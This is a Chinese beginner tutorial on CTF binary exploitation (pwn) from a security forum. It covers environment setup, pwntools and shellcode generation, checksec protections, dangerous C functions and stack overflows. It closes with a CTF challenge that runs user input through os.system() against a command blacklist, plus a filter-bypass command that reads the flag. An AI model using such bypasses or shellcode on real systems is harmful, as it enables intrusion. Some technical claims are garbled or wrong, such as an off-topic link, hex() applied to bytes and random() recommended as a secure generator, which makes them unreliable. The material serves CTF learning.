# pwn的一些知识点总结分享-先知社区

> **来源**: https://xz.aliyun.com/news/16725  
> **文章ID**: 16725

---

# pwn环境搭建

## ubuntu

首先到镜像站下载ubuntu16.04桌面版的iso镜像文件。

<https://mirrors.tuna.tsinghua.edu.cn/ubuntu-releases/16.04.7/>

选择到清华镜像站下载ubuntu-16.04.7-desktop-amd64.iso镜像文件

然后打开vmware workstation进行安装

首先安装apt-transport-https

sudo apt-get install apt-transport-https

vim /etc/apt/sources.list

替换清华源

```
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial main restricted
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial-updates main restricted
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial universe
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial-updates universe
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial multiverse
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial-updates multiverse
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial-backports main restricted universe multiverse
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial-security main restricted
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial-security universe
deb http://mirrors.tuna.tsinghua.edu.cn/ubuntu/ xenial-security multiverse
```

## 基础依赖环境

```
sudo apt update
sudo apt install python2.7
sudo apt install python3
sudo apt install python-dev
sudo apt install python3-dev
sudo apt install vim
sudo apt install git
sudo apt install gcc
sudo apt install make
sudo apt install gdb
sudo apt install build-essential
sudo apt install g++//前一步已安装
sudo apt install gcc-multilib
sudo apt install python3-pip libssl-dev libffi-dev
sudo apt install tmux//做pwn题不建议用xshell，如果你要用xshell，你需要用到tmux终端窗口管理器
```

## pip 的安装

### Ubuntu16.04 python3 的pip的安装

ubuntu 16.04中apt安装的pip版本太低，由于pip --upgrade

```
wget https://bootstrap.pypa.io/pip/3.5/get-pip.py
python3 get-pip.py
```

### 在 Ubuntu 16.04上安装 Python2 Pip

在python2中安装pip，由于pip 21.0已经于2021年1月停止对Python 2.7的支持，所以在安装pip 21.0以上版本的时候，会报以下的错误：

```
python
Traceback (most recent call last):
  File "get-pip.py", line 24244, in <module>
    main()
  File "get-pip.py", line 199, in main
    bootstrap(tmpdir=tmpdir)
  File "get-pip.py", line 82, in bootstrap
    from pip._internal.cli.main import main as pip_entry_point
  File "/tmp/tmphFBy5C/pip.zip/pip/_internal/cli/main.py", line 60
    sys.stderr.write(f"ERROR: {exc}")
                                   ^
SyntaxError: invalid syntax
```

所以为了避免以上问题的出现，或者解决上述的问题，需要安装21.0以下版本的pip，具体的方案如下：

启用 universe 源仓库：

sudo add-apt-repository universe

更新软件包索引：

sudo apt update

使用wget命令来下载get-pip.py脚本：

wget <https://bootstrap.pypa.io/pip/2.7/get-pip.py>

使用 python2运行脚本来为 Python 2 安装 pip：

sudo python2 get-pip.py

## pwntools安装

ubuntu16.04安装pwntools3(pwntools2同理)

```
pip3 install --ignore-installed psutil --user
pip3 install -U setuptools
pip3 install --upgrade pwntools
```

其他高版本安装pwntools

```
sudo pip3 install --ignore-installed psutil --user
sudo pip3 install -U setuptools
sudo pip3 install --upgrade pip
sudo pip3 install --upgrade pwntools
pip3 install --ignore-installed psutil --user
```

如何验证pwntools安装成功python进入交互，导入pwn库，出现如下字符证明pwntools安装成功

```
$ python3
>>> from pwn import *
>>> asm("xor eax,eax")
b'1\xc0'
```

## pwndbg插件安装

```
git clone https://github.com/pwndbg/pwndbg.git
echo "source ~/pwndbg/gdbinit.py" >> ~/.gdbinit
```

## one\_gadget安装

Ubuntu16.04 需要更新 ruby-2.6！更新 2.6，方法如下，先添加仓库

```
sudo add-apt-repository ppa:brightbox/ruby-ng
sudo apt-get update
```

删除低版本的 ruby

sudo apt-get purge --auto-remove ruby

安装 ruby-2.6 版本

sudo apt-get install ruby2.6 ruby2.6-dev

安装one\_gadget

sudo gem install one\_gadget

## ropper安装

用 pip 安装 Capstone:

sudo pip3 install capstone

用 pip 安装 filebytes

sudo pip3 install filebytes

安装 Keystone

sudo pip3 install keystone-engine

pip 安装 Ropper

pip3 install ropper

# pwn的一些基础知识点

## pwntools

pwntools 是一个Python库， 用于编写二进制漏洞利用（exploitation）脚本

### 功能：

* **远程连接和本地连接：** 支持通过TCP/UDP连接远程服务或与本地进程进行交互。
* **Shellcode和ROP链构造：** 提供了便捷的工具来生成和利用shellcode（比如execve的shellcode）以及构造ROP（Return-Oriented Programming）链。
* **调试支持：** 可以与调试器（如gdb）配合使用，进行调试、自动化调试等。
* **自动化交互：** 支持自动化与程序交互，模拟用户输入，处理输入输出流。
* **格式化输出：** 提供了丰富的格式化工具，帮助你以不同的方式展示数据。

### 语法：

#### 1. **基础连接和交互**

##### 连接

from pwn import \*  #导入pwntools库

p = remote('example.com', 12345)  #连接远程服务

p = process('./vulnerable\_program')  #连接本地程序

##### 发送数据

payload=b'a'\*4+p64(1853186401) #payload

p.sendline('Hello')  #发送一行数据

p.send('Hello')  #发送没有换行符的数据

p.send(b'Hello')  #发送多个数据

##### 接收数据

data = p.recvline()  #接收一行数据

data = p.recv()  #接收任意数据

data = p.recv(1024)  #接收特定大小的数据

#### 2. **调试**

##### 使用GDB调试

p = process('./vulnerable\_program')

gdb.attach(p)   #启动进程，并自动附加到gdb进行调试

p.interactive()   #调试时，继续执行直到退出

p = process('./vulnerable\_program')

gdb.attach(p, '''

break main

continue ''')  #启动调试进程并设置断点 设置gdb断点并启动

#### 3. **利用ROP链**

##### 创建ROP链

elf = ELF('./vulnerable\_program')   #加载二进制文件

system = elf.symbols['system']   #获取函数地址（比如system函数）

libc = ELF('/lib/x86\_64-linux-gnu/libc.so.6') system = libc.symbols['system']

system = libc.symbols['system']   #获取libc基地址

rop = ROP(elf)

rop.call(system, [next(elf.search(b'/bin/sh'))])  # 构造ROP链

print(rop.dump())  # 打印ROP链

#### 4. **格式化输出**

##### 格式化为16进制

data = b'Hello'

print(hex(data))  # 打印数据的16进制

##### 构造填充数据（Padding）

padding = b'A' \* 64 # 构造填充数据

print(padding)  # 格式化成16进制

#### 5. **Shellcode与生成**

##### 使用asm来生成Shellcode

shellcode = asm(shellcraft.sh())

print(shellcode)  #使用asm生成shellcode

##### 执行Shellcode

p = process('./vulnerable\_program')   #创建一个进程并注入shellcode

p.send(shellcode)  #注入shellcode

#### 6. **脚本化交互**

pwntools 提供了一个名为 interactive 的方法来帮助你与程序进行交互。

p.sendline('Hello')   # 发送数据并启动交互模式

p.interactive()  # 启动交互模式，进入交互式命令行

#### 7. **利用**\*\*context\*\***进行设置**

\*\*context\*\***是用来设置当前进程/连接的环境的。可以设置架构、字节序等。**

##### **设置架构和字节序**

context.arch = 'amd64'

context.os = 'linux'

context.endian = 'little' # 设置架构和字节序（x86\_64，little-endian）

##### 设置输入/输出编码

context.term = 'xterm-256color' # 设置输入输出编码为utf-8

#### 8. **其它常见工具**

##### ELF 类

ELF 类提供了对二进制文件的操作接口，能够帮助你提取符号、段、重定位等信息。

elf = ELF('./vulnerable\_program')  # 加载一个ELF文件

print(hex(elf.entry))  # 查看程序的入口地址

func\_address = elf.symbols['main']

print(hex(func\_address))  #获取函数地址

##### libc 类

libc 类帮助你进行 libc 漏洞利用时的操作，包括获取函数地址、计算基址等。

libc = ELF('/lib/x86\_64-linux-gnu/libc.so.6')  # 加载libc文件

system = libc.symbols['system']

print(hex(system))  # 获取libc中的system函数地址

#### 9. \*\*pwn\*\***命令行工具**

除了作为一个Python库，pwntools 还提供了一些命令行工具，如 pwn cyclic、pwn checksec 等，来帮助你分析二进制文件和漏洞。

$ pwn cyclic 100  # 生成一个包含100个字符的循环序列

$ pwn checksec --fortify-file=./vulnerable\_program  # 检查程序的安全设置

## 其它工具

IDA pro ：静态反汇编工具

pwndbg：二进制程序动态调试工具

checksec：检查二进制文件的安全防护机制

ROPgadget：ROP 攻击链的构建，分析二进制文件的内部结构

one\_gadget：快速定位关键 gadget，查找可能导致程序执行任意代码的单一 gadget

py\_main\_arena\_offset：获取给定 libc 的 main\_arena 偏移量

### checksec

以下是对 checksec 命令输出各部分的解读：



#### “Arch: amd64-64-little”

这表示目标二进制文件的架构信息。“amd64” 说明它是适用于 64 位的英特尔架构（以及兼容的其他架构），“64-little” 进一步指出采用的是小端序（Little-Endian）存储模式。在小端序中，数据的低位字节存于低地址，高位字节存于高地址，这对于理解内存中数据的存储和读取方式很重要，尤其在进行底层的二进制分析、漏洞利用等操作时会涉及相关概念。

#### “RELRO: Partial RELRO”

Relocation Read-Only (RELRO)，此项技术针对GOT/GIFTO([区块链](https://so.csdn.net/so/search?q=%E5%8C%BA%E5%9D%97%E9%93%BE&spm=1001.2101.3001.7020))改写的攻击方式。分为两种，Partial RELRO 和 Full RELRO。

Partial RElRO易受攻击，例如攻击者可以atoi.got为system.lit，进而输入/bin/sh\x00获得shell

Full RELRO 使整个GOT只读，从而无法被覆盖，但这样会大大增加程序的启动时间，因为程序在启动之前需要解析所有的符号。

Partial RELRO 易受攻击，可以攻击

“RELRO” 即 “Relocation Read-Only”，是一种针对二进制文件中重定位表（用于在程序加载时调整内存地址等操作）的保护机制。“Partial RELRO” 意味着部分重定位表被设置为只读了。具体来说，程序启动时，动态链接器会处理重定位，在部分 RELRO 情况下，.got（Global Offset Table，全局偏移量表）中一部分关键的条目（比如涉及到函数调用等的重要地址）被保护起来防止被修改，而还有一部分可能仍处于可写状态，相对而言，这种保护程度是有限的，相较于 “Full RELRO”（全重定位表只读保护）安全性稍弱一些，攻击者有可能利用可写部分进行一些攻击，比如修改函数指针等操作来实现控制流劫持。

#### “Stack: No canary found”

No canary found 栈溢出保护未开启

“canary” 也就是栈保护机制中的 “金丝雀” 值，它是一种用于检测栈溢出的防护手段。如果开启了栈保护（有 canary），编译器会在函数栈帧中插入一个随机生成的值（金丝雀值），在函数返回前会检查这个值是否被篡改。若检测到篡改，程序通常会直接终止，防止攻击者利用栈溢出进一步控制程序流程。这里显示 “No canary found”，意味着该二进制文件没有启用这种栈保护机制，所以就存在更高的风险被利用栈溢出漏洞来进行攻击，攻击者有可能通过向栈中写入超出正常范围的数据来覆盖返回地址等关键数据，进而改变程序执行流。

#### “NX: NX enabled”

NX enable如果这个保护开启就意味着栈中数据没有执行权限，如此，当攻击者在堆栈上部署自己的shellcode并触发时，指挥直接造成程序的崩溃，但是可以利用rop这种方法绕过

“NX” 即 “Non-Executable”，代表非执行权限保护机制。启用了 “NX” 意味着数据所在的内存区域（比如栈、堆等）默认是不可执行代码的。这能有效防止攻击者向这些数据区域写入恶意代码（例如 shellcode）然后直接执行它们，攻击者如果想要执行代码，就需要想办法绕过这个限制，比如通过一些特殊的漏洞利用技术去找到可执行的内存区域（像利用程序中本身存在的可执行代码段漏洞等）来实现代码执行。

#### “PIE: No PIE (0x400000)”

PIE(Position-Independent Executable，位置无关可执行文件)，技术与ASLR技术类似ASLR将程序运行时的堆栈以及共享库的加载地址随机化，而PIE技术是在编译时将程序编译为位置无关，即程序运行时各个段（如代码段等）加载的虚拟地址也在是装载时才确定。这就意味着，在PIE和ASLR同时开启的情况下，攻击者将对程序的内存布局与一无所知。

“PIE” 是 “Position Independent Executable”（位置无关可执行文件）的缩写。如果开启了 PIE，程序每次加载到内存中的地址都是随机的，这使得攻击者难以提前确定关键函数、全局变量等在内存中的固定位置，增加了利用内存地址相关漏洞（比如基于绝对地址的返回地址覆盖等）的难度。这里显示 “No PIE (0x400000)”，说明该程序没有启用 PIE 机制，程序加载到内存中的基地址是固定的（此处显示基地址为 0x400000 ），攻击者可以更容易地根据这个已知的固定地址去构造攻击，比如准确地定位并覆盖想要修改的关键内存位置上的数据。

总体来说，通过这份 checksec 的报告可以了解到这个二进制文件的一些安全防护特性情况，并且能据此分析出它可能存在的安全风险点以及对漏洞利用的影响等，为后续进行安全分析、漏洞挖掘和利用等操作提供重要参考。

## 名词解释

**二进制程序**：常为C、C++及python写的一段程序，程序中往往包含着这样那样的漏洞。

**逆向分析**：利用反汇编等途径查看源代码并对程序进行理解的过程

**调试：**程序调试是指通过分析和排查程序中的错误和问题，以找出程序运行过程中的错误和异常，并进行修复和优化的过程。调试是软件开发过程中非常重要的一环，可以帮助开发人员快速定位和解决程序中的问题，提高程序的质量和稳定性。

**playload：**payload是指用于利用程序漏洞的输入数据或代码。通过构造恶意的payload，攻击者可以利用程序中的漏洞来执行任意的代码或获取系统权限。

**shell：**"shell"通常指的是一个交互式的命令行界面，可以用于执行系统命令和操作。可以说，拿到了shell，你就是服务器的拥有者。自然而然就可以光明正大的查找这台服务器上的flag

## ELF文件概述

C语言到可执行文件











## Shellcode

### 什么是shellcode

shellcode通常是软件漏洞利用过程中使用一小段机器代码

#### 作用

1.启动shell，进行交互

2.打开服务器端口等待连接

3.反向连接端口

4.。。。

### 如何编写shellcode

1.设置rdi指向/bin/sh

2.rsi=0,rdx=0

3.rax=0x3b

4.syscall进行系统调用

64位系统调用和32位调用的区别

1.传参寄存器不同

2.系统调用使用syscall

### 如何快速的生成shellcode？

使用pwntools快速生成对应架构的shellcode

1.设置目标架构

2.设置shellcode

#32位

from pwn import\*

context(log\_level = 'debug',arch = 'i386',os = 'linux')

shellcode=asm(shellcraft.sh())

#64位

from pwn import\*

context(log\_level = 'debug',arch = 'amd64',os = 'linux')

shellcode=asm(shellcraft.sh())

### shellcode的变形

## C语言中危险函数

在 C 语言中，有一些函数因为存在缓冲区溢出、格式字符串漏洞等问题，被认为是“危险函数”。这些函数通常不能有效地检查输入的长度或数据，容易导致程序崩溃、内存泄漏或安全漏洞。常见的危险函数有：

### 1. gets()

gets() 函数用于从标准输入读取字符串，但它没有限制输入的长度。这就导致了缓冲区溢出问题。如果用户输入的字符串超出了缓冲区的大小，程序会覆盖其他内存区域，可能导致未定义行为或攻击者执行恶意代码。

**替代函数**：fgets()，它允许指定读取的最大字符数，从而防止溢出。

### 2. scanf()

scanf() 在读取用户输入时，如果没有正确指定格式控制符的长度限制，也有可能导致缓冲区溢出。例如，scanf("%s", buffer) 会继续读取直到遇到空白字符，而不检查 buffer 的大小。

**替代方法**：使用限定输入大小的格式，如 scanf("%99s", buffer)，或者使用 fgets() 等安全输入函数。

### 3. strcpy() 和 strcat()

strcpy() 和 strcat() 分别用于字符串拷贝和连接操作，但它们不会检查目标缓冲区的大小，容易造成缓冲区溢出，尤其是当输入的字符串长度超过目标数组的容量时。

**替代函数**：

* strncpy()：限制拷贝的字符数（但仍需小心，确保目标数组有足够的空间）。
* strncat()：限制连接的字符数。
* 推荐使用 snprintf() 或 strlcpy()（某些库提供）。

### 4. sprintf() 和 vsprintf()

printf() 系列的函数在输出到字符数组时，如果没有检查目标数组的大小，也可能导致缓冲区溢出，特别是当格式字符串非常复杂或者输入数据太大时。

**替代函数**：

* snprintf()：可以指定最大输出长度，避免溢出。
* vsnprintf()：用于格式化可变参数的版本。

### 5. memcpy() 和 memmove()

这两个函数用于内存拷贝操作，但它们不会检查目标缓冲区的大小，使用时很容易引发缓冲区溢出问题。尤其在拷贝的长度不确定时，使用不当会导致内存破坏。

**替代方法**：如果长度已知，确保不会超过目标缓冲区大小；否则使用带有边界检查的函数，如 memcpy\_s()（在某些平台上可用）。

### 6. strtok()

strtok() 用于字符串分割，但它会直接修改原始字符串，并返回指向分割后的子字符串的指针。这种操作可能破坏原始数据，也容易出现内存泄漏或访问非法内存。

**替代方法**：使用 strtok\_r()，它是线程安全的。

### 7. alloca()

alloca() 函数分配内存，并且分配的内存是在栈上，而不是堆上。虽然它的作用和 malloc() 类似，但因为栈空间有限，使用不当可能会导致栈溢出。此外，它没有 free() 函数释放内存，导致内存泄漏。

**替代方法**：尽量避免使用 alloca()，可以使用 malloc() 配合 free() 来管理堆内存。

### 8. system()

system() 函数用于执行系统命令，它会把字符串传递给操作系统的命令行解释器。在接受用户输入时，恶意用户可能通过构造特定的命令，执行系统命令，从而导致安全漏洞。

**替代方法**：避免直接使用 system()，可以使用更安全的替代方法，如 exec() 系列函数，或者通过更安全的方式调用外部程序。

### 9. vprintf() 和 vfprintf()

这些函数用于格式化输出，但如果格式化字符串不可靠（比如由用户提供），可能会导致格式字符串攻击。例如，攻击者通过控制格式字符串，可以导致程序泄露内存内容或执行任意代码。

**替代方法**：使用参数校验，确保格式字符串是固定的，或者使用 snprintf() 等安全函数。

### 10. longjmp() 和 setjmp()

setjmp() 和 longjmp() 用于在程序中实现非局部跳转（类似异常处理机制）。虽然它们本身并不直接导致缓冲区溢出或内存泄漏，但它们的使用可能会绕过正常的资源清理流程（如栈上的变量销毁），因此，如果使用不当，可能会导致资源泄露或程序状态不一致。

**建议**：尽量避免在代码中滥用 setjmp() 和 longjmp()，并确保它们仅用于明确的控制流，避免跳过栈帧中重要的资源释放操作。

### 11. rand() 和 srand()

虽然 rand() 和 srand() 本身不会引发安全漏洞，但它们的伪随机性较差，生成的随机数序列很容易被预测。在密码学相关应用中，使用 rand() 生成的随机数不适合用于加密或安全相关的操作，因为它们不够随机，容易被攻击者预测。

**替代方法**：对于安全敏感的应用，应该使用更为安全的随机数生成方法，例如 random() 或 arc4random()，或者在现代系统中使用 openssl 库提供的高质量随机数生成函数。

### 12. tmpnam() 和 tempnam()

tmpnam() 和 tempnam() 用于生成临时文件名，但它们有可能导致竞争条件（TOCTOU，时间一环条件）漏洞。尤其是在多线程环境或多个进程并发执行时，可能会导致文件被其他进程提前创建，从而被攻击者利用。

**替代方法**：使用更安全的 mkstemp() 或 tmpfile()，这些函数会创建并返回一个临时文件，并且具备更好的安全性。

### 13. strchr() 和 strrchr()

strchr() 和 strrchr() 分别用于查找字符串中第一次和最后一次出现指定字符的位置。它们本身不是不安全的，但如果传入一个没有 \0 结尾的字符串，可能会导致越界访问。由于 C 语言字符串是基于空字符终止的，错误的字符串输入可能导致无法预料的行为。

**建议**：确保传入给 strchr() 和 strrchr() 的字符串是合法的以避免访问非法内存。

### 14. setvbuf() 和 setbuf()

setvbuf() 和 setbuf() 用于设置文件流的缓冲区大小和类型，但如果不小心使用，可能会导致缓冲区溢出或错误的缓冲区处理。例如，如果你没有足够的内存或缓冲区空间，可能会出现崩溃或资源泄漏。

**建议**：使用时小心指定合适的缓冲区大小，确保程序稳定。

### 15. sscanf()

sscanf() 是一种从字符串中读取格式化数据的函数，虽然它功能强大，但也很容易出错。没有正确限制输入的长度或格式时，sscanf() 可能会导致缓冲区溢出、内存泄漏或其他问题。

**建议**：使用时确保格式字符串正确，且传入的缓冲区有足够的空间。

### 16. vfork()

vfork() 用于创建新进程，与 fork() 类似，但它的行为不同，通常会导致父进程被暂停，直到子进程执行完毕。因为 vfork() 可能改变进程的状态，容易引发竞态条件或不一致的资源状态，从而导致难以调试的错误。

**建议**：在不需要特殊优化的情况下，尽量避免使用 vfork()，改用 fork()，并且确保正确管理资源。

### 17. strtol()、strtoul()

虽然这些函数用于将字符串转换为长整型或无符号长整型，但如果输入字符串不符合预期格式，可能会导致未定义的行为，尤其是在字符串超出整数范围或包含非数字字符时。

**建议**：使用时确保输入字符串的格式正确，并检查转换后的返回值和错误码。

### 18. gethostbyname() 和 gethostbyaddr()

这些函数用于 DNS 查询，但它们已经被标记为过时（deprecated），并且存在潜在的安全风险，例如缓冲区溢出，尤其是在一些老旧的代码库中。

**替代方法**：使用 getaddrinfo()，这是一个更现代、更安全的替代方案。

### 19. fseek() 和 ftell()

虽然 fseek() 和 ftell() 本身不是危险的函数，但在某些情况下，它们可能会导致对文件指针的错误操作，导致程序崩溃或不一致的文件状态。例如，在文件打开模式不正确时，可能会导致未定义的行为。

### 总结

以上这些“危险函数”通常是因为缺乏足够的输入验证或边界检查，在处理数据时容易引发缓冲区溢出、格式字符串漏洞等问题。现代编程推荐使用更安全的替代函数，如 fgets()、snprintf()、strncpy() 等，来确保程序的健壮性和安全性。此外，始终注意进行输入验证，避免直接信任用户输入，减少安全漏洞的风险。

## 溢出

### 什么是溢出？

正数加正数，不可能等于一个负数，如果出现了，就是溢出。负数加负数，也不可能等于一个正数，如果出现了就是溢出。溢出的概念，只发生在有符号数。无符号数，是没有溢出这个概念的。

于是，这就涉及到了，有符号数的大小判断。因为CMP，作的是目的操作数，减去源操作数的一个减法运算。试想一下，如果目的操作数，是一个正数，而源操作数，是一个负数。那么，正数减去负数，就相当于正数加正数。

有符号数，正数的最高位，是0。但是，两个正数相加，最高位，可能溢出，变成了1。这不就出现了负数了吗。

从，目的操作数，与源操作数的符号(正负)，可知，目的操作数为正数，肯定大于负数。结果为，">“，大于。

发生了溢出之后，OF=1。但SF=1(负数)。此时，OF=SF，所以是大于。

### 缓冲区溢出（Buffer overflow）

编写程序时没有考虑到控制或者错误控制用户输入的长度，本质就是向定长的缓冲区中写入了超长的数据，造成超出的数据覆写了合法内存区域

#### 栈溢出（Stack overflow）

是最常见，漏洞比列最高，危害最大的二进制漏洞

在CTF PWN中往往是漏洞利用的基础

比如：

```
int overflow()
{
    char buf[8];        
    read(0,buf,16)
}
```

char buf[8];

#定义了一个char类型的个数位8的变量，所以缓冲区长度位8，

read(0,buf,16)

#但是向buf read了一个16的内容

#### 堆溢出（Heap overflow）

堆管理器复杂，利用花样繁多

CTF PWN中的常见题型

#### Data段溢出（比如bss段，比较少见）

攻击效果依赖于Data段 上存放了何种控制数据

# pwn基础题

## **NSSCTF刷题**

### [SWPUCTF 2021 新生赛]nc签到

打开附件里面内容

```
import os

art = '''

   ((  "####@@!!$$    ))
       `#####@@!$$`  ))
    ((  '####@!!$:
   ((  ,####@!!$:   ))
       .###@!!$:
       `##@@!$:
        `#@!!$
  !@#    `#@!$:       @#$
   #$     `#@!$:       !@!
            '@!$:
        '`\   "!$: /`'
           '\  '!: /'
             "\ : /"
  -."-/\\-."//.-"/:`\."-.JrS"."-=_\
" -."-.\"-."//.-".`-."_\-.".-".-//'''
print(art)
print("My_shell_ProVersion")

blacklist = ['cat','ls',' ','cd','echo','<','${IFS}']

while True:
    command = input()
    for i in blacklist:
        if i in command:
            exit(0)
    os.system(command)
```

blacklist是黑名单的意思

也就是说里面的内容都被禁了，所以我们需要绕过

cat可以用tac来代替

空格' ' 可以用 $IFS$1 代替，也就是tac$IFS$1flag

